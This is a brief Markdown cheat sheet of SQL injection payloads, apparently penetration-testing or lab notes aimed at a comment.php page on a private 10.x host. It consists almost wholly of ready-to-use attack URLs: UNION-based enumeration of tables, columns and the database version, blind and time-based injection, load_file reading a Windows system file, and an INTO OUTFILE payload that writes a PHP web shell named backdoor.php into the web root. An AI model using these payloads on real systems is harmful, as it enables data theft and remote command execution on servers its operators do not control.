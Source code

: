 # SQL Injection

### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### load_file Function
```
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6
```
### into OUTFILE
```
Into OUTFILE
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,%22%3C?php%20echoshell_exec($_GET[%27cmd%27]);?%3E%22,6%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27
```
